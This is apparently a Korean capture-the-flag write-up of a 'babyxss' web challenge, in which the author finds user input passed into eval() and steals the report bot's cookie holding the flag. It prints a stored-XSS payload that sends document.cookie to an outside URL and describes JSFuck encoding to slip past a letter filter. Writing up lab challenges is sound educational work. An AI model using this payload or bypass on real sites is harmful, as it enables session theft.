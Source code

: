 <h1>1. 웹페이지 접속</h1>
 

![image](./image/babyxss2.png)
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

![image](./image/babyxss3.png)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

![image](./image/babyxss4.png)

 

nope! 이라는 메시지가 출력되었다.

 

![image](./image/babyxss5.png)

 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

![image](./image/babyxss6.png)

 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

![image](./image/babyxss7.png)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 
![image](./image/babyxss8.png)

 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

![image](./image/babyxss9.png)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

<h1>2. 코드 분석</h1>
 

![image](./image/babyxss10.png)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

![image](./image/babyxss11.png)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

![image](./image/babyxss12.png)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

![image](./image/babyxss13.png)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 <br>

<h1>3. 공격 시나리오</h1>
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 
<br>
 

<h1>4. 공격 실행</h1>
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 

```
',location.href="request_url/"+document.cookie,'
```
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 

```
eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
```

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 

```
eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
``` 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

![image](./image/babyxss14.png)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

![image](./image/babyxss15.png)
 

프록시 도구에서 스크립트를 삽입한다.

 

![image](./image/babyxss16.png)
 

발급받은 id 값을 확인한다.

![image](./image/babyxss17.png)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

![image](./image/babyxss18.png)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

![image](./image/babyxss19.png)
